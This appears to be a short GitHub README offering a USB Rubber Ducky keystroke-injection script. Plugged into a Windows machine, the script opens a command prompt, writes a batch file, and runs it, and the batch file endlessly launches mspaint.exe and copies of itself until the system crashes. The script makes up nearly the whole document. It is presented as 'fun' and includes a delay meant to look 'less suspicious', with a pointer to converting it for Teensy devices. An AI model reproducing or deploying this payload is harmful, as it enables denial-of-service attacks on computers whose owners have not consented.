 # About...
Version: 1.0

Author: BlueArduino20

# Fork Bomb for Rubber Ducky (For Windows)
Really basic script to crash Windows executing exponencially "mspaint.exe" and the same bat. It could be fun!

It's designed for the USB Rubber Ducky, but you can convert it for Teensy with Duckuino.js (By d4n5h): https://github.com/d4n5h/Duckuino

Anyway, here you've got the code:

# Code for Rubber Ducky

<pre><code>REM Fork Bomb for Windows. By: BlueArduino20
REM Let's give windows time to recognize our BadUSB
DELAY 2000
GUI r
ENTER
DELAY 100
STRING cmd
ENTER
DELAY 100
STRING copy con F.bat
ENTER
REM Some bat delay (Less suspicious)
STRING >nul ping 127.0.0.1 -n 10
ENTER
STRING :A
ENTER
STRING start mspaint.exe && start F.bat
ENTER
STRING GOTO A
ENTER
CONTROL z
DELAY 100
STRING start F.bat"</pre></code>
